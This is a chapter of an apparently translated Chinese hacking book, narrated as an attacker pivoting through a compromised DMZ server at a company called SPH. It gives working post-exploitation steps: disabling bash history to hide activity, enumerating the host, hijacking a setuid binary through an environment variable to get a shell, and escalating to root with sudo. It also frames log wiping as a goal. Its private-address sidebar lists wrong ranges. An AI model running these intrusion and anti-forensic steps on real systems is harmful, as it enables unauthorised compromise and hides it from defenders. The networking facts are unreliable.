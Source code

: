 # 第三章、防火墙后面的世界

> 为什么当一个人建造一堵墙时，下一个人立刻需要知道另一边是什么？” -- *georges R.R. Martin*

利用SPH公司前端服务器上的一些漏洞，我们至少有一台服务器的控制权限了。[53]。我们现在在位于蓝色区域的服务器上拿到了一个shell。但是蓝色区域除了邮箱代理服务器，视频会议服务器和一些网站，没有任何我们正在寻找的数据。

![当前所处位置](./Chap3/1WhereWeAre.png)

蓝色区域只是我们通向绿色区域的入口。想一想。从互联网上我们是看不见绿色区域的（内部网络）;但是，通过蓝色区域，我们可以访问其中的一些服务器了。本章的目的是通过从Front Gun服务器通过蓝色区域，建立一个到绿色区域的可靠链接或隧道。

如果我们可以在途中拿下一两台服务器，那就更好了，但首先要做的事情是：我们正处在什么设备上？

## 3.1 知彼
无论是在Windows还是Linux上，首要工作就是收集所处环境的有效信息。但是，在执行任何命令之前，首先禁用 bash 的历史文件，避免我们的命令被记录下来。
```
www-data@CAREER$ unset HISTFILE
```

查看系统信息

```
www-data@CAREER$ uname -a
Linux CAREER 4.4.0-31-generic #50-Ubuntu SMP Wed Jul	13	00:06:14	UTC	2016	i686	i686	i686
GNY/Linux
www-data@CAREER$ cat /etc/passwd
[…]
redis:x:124:135::/var/lib/redis:/bin/false
redsocks:x:125:136::/var/run/redsocks:/bin/false rwhod:x:126:65534::/var/spool/rwho:/bin/false sslh:x:127:137::/nonexistent:/bin/false rtkit:x:128:138:RealtimeKit,,,:/proc:/bin/false saned:x:129:139::/var/lib/saned:/bin/false
usbmux:x:130:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
beef-xss:x:131:140::/var/lib/beef-xss:/bin/false
vboxadd:x:999:1::/var/run/vboxadd:/bin/false ftp:x:133:143:ftp daemon,,,:/srv/ftp:/bin/false
elasticsearch:x:134:144::/var/lib/elasticsearch:/bin/false debian-tor:x:135:145::/var/lib/tor:/bin/false mongodb:x:136:65534::/home/mongodb:/bin/false oinstall:x:1000:1001::/home/oinstall:/bin/sh oinstall2:x:1001:1002::/home/oinstall2:/bin/sh
[…]
```

看来我们位于一台Ubuntu服务器（使用32位架构）。当前用户是www- data，它通常对系统没有太多特权。

虽然系统上定义了许多用户，但只有我们的会话当前在计算机上处于活动状态：
```
www-data@CAREER:$ w
19:01:10 up 14:51,	1 user,	load average: 0.00, 0.00, 0.00
USER	TTY	FROM	LOGIN@	IDLE	JCPU  PCPU WHAT
www-data tty1 Thu19 0.00s 1:47 0.00s /bin/bash

```
检查网络配置，可以看到我们正位于 192.168.1.0/24 网段：
```
www-data@CAREER:$ ifconfig
eth1		Link encap:Ethernet HWaddr 08:00:27:7d:a6:c0 
            inet addr:192.168.1.46 Bcast:192.168.1.253 Mask:255.255.255.0
            inet6 addr: fe80::a00:27ff:fe7d:a6c0/64 
Scope:Link
            UP BROADCAST RUNNING MULTICAST
            MTU:1500 Metric:1
            RX packets:158729 errors:0 dropped:501 overruns:0 frame:0
            TX packets:1626 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000
            RX bytes:18292132 (17.4 MiB) TX bytes:225556 (220.2 KiB)
```


最后，服务器没有启用本地防火墙规则，不会对我们后面要用到的数据传输技术造成影响：
```
www-data@CAREER:$ iptables -L 
Chain INPUT (policy ACCEPT)
target	prot opt source	destination

Chain FORWARD (policy ACCEPT)
target	prot opt source	destination

Chain OUTPUT (policy ACCEPT)
target	prot opt source destination
```

> 提示：请记住，我们可以使用更高级的反向shell（例如meterpreter）通过模块来自动执行这些检查。本地工具和命令清单可以在这里获取：[54]

## 3.2 第一个倒下的
有些人可能认为在拿下的第一台服务器上获取管理员权限不是必须的。其实也对，如果我们仅仅需要建立与内部网络区域的隧道的话，拿到普通权限就已经足够了。但是，如果我们想擦除审计日志、欺骗管理员、或者安装新工具，拥有管理员权限显然会更加方便。

有时候，如果运气好的话，用来获取shell的漏洞组件本身就以最高权限在运行，在这种情况下，啥都不用做，可以直接调到下一节了。

一个典型的例子，运行DBA账户的MSSQL服务器存在SQL注入漏洞。所有通过**xp_commandshell**执行的命令，都具备系统最高权限，也就没必要使用接下来介绍的这些技术了。不管怎样，我们还是聚焦在已经拿下的这台Linux服务器吧。

提权和 **setuid** 文件也不是每次都能碰到，但在linux的世界里，他们是一对完美组合。这是每一位黑客或者渗透测试人员攻击 Linux 服务器的第一反应。

在Linux发行版中，所有文件都有一个特殊属性"s"，称为 setuid 位。这允许任意用户通过文件所有者的权限来执行该文件。例如，root账号创建了一个用来删除某些重要文件导额脚本，通过对该文件添加 setuid 位，其他任何用户执行该脚本都会以root用户的权限来执行删除命令。

记住，一旦我们修改了 **setuid** 脚本，它就不再具备该能力。 我们正在寻找的，就是一个使用了未严格过滤命令的 **setuid** 脚本，用以操作环境变量，执行其他二进制文件 -- 有时我们可以控制和提权，从而欺骗它来执行我们自己的代码。

首先，通过下面的命令列出所有 **setuid** 文件：
```
CAREER$>find / -type f \( -perm -04000 -o -perm -02000 \) \-exec ls -l {} \;
r-sr-sr-x 1 oinstall adm 9 Dec 18 14:11 /app/product/def_policy
[…]
```
找到了 **def_policy** 文件。任意用户都可以用 **oinstall**账户的权限来执行该文件。也许该用户不具备root权限，但我们毕竟向前了一步。

对 **def_policy** 文件执行strings命令，查找程序中硬编码的数据：
```
www-data@career$ strings /app/product/def_policy
/lib/ld-linux.so.2
____gmon_start____
libc.so.6
setuid
exit
sprint
strnlen
malloc
system
strsep
strcmp
____libc_start_main
GLIBC_2.0 
ADMIN_PATH
%s/install.sh
```
看起来，**def_policy**程序只是一个简单的打包程序，用来执行 install.sh 脚本。'%s' 格式字符串意味着 **install.sh** 脚本的路径是从变量中获取的……比如'ADMIN_PATH'？也许吧，但是看起来程序代码中没有任何路径。基本可以确定，是在会话级别的环境变量中定义了该路径值。

有趣的地方在于，每个用户控制了自己的环境变量。我们可以这样欺骗该程序去读取攻击者控制目录中的新 install.sh 脚本。这个新的“伪造”脚本会生成一个具有 oinstall 账户权限的 **bash** 会话。

```
www-data$> export ADMIN_PATH=/tmp/
www-data$> echo -e	"#\!bin/bash\n/bin/bash" > /tmp/install.sh
www-data$> /app/product/def_policy
oinstall$> id
uid=1501(oinstall) gid=2001(adm) groups=2001(adm) ,27(sudo)
```

很好！ **oinstall** 账号不仅仅是 **adm** 组用户，还是 **sudo** 组用户。这意味着它可以提权为 root 用户：
```
oinstall@CAREER:$ sudo su
root@CAREER#> id
uid=0(root) gid=0(root) groups=0(root)
```

干掉了一个……继续干。

> 迁出 linuxprivchecker 脚本：http://www.securitysift.com/download/linuxprivchecker.py，了解一些有趣的自动采集信息的技术。

> windows 平台也有类似的工具：https://github.com/pentestmonkey/windows-privesc- check

## 3.3 搭个梯子直达天堂
现在我们已经拿下了一台机器的 root 权限，接下来逛逛蓝色区域看还能发现点什么。因为大部分信息系统都是基于 Windows 系统的，最好是在公共 DMZ 区找到并拿下一台 Windows 机器。因此，我们可以重用后文一些机器的漏洞和密码。

为了更好的开展攻击，我们需要将常用的黑客工具（比如nmap、自己写的python脚本、Powershell Empire等）上传到刚才拿下的 Linux 机器上。如果这么操作的话，咋说呢？有点“脏”。日后被攻击方开展调查的时候，将发现我们放在服务器上的所有专用工具，通过分析这些文件能理解整个攻击过程。

这就是为啥我倾向于第二种方法的原因，这种方法更“干净”，也可以说更“性感”：建立虚拟隧道。对 Linux 机器进行配置，让它接收我们所有的数据包，并且直接转发到指定的目标地址。这个目标地址从互联网是无法访问的，因为是私有地址。

{% hint style="info" %}
> **私有地址**

> 设备在互联网上可以通过 IP 地址被访问。IPv4 由四个字节组成，通常用 X.X.X.X 表示， X 值介于 0 到 255。
有些 IP 地址被保留用于本地网络，不能用于互联网（RFC 1918）：

> 127.0.0.1 表示本机
172.16.0.0/16 (从 172.16.0.0 到 172.16.31.255)
192.168.0.0/24 （从 192.168.0.0 到 192.168.255.255）
10.0.0.0/8 （从 10.0.0.0 到 10.255.255.255）

{% endhint %}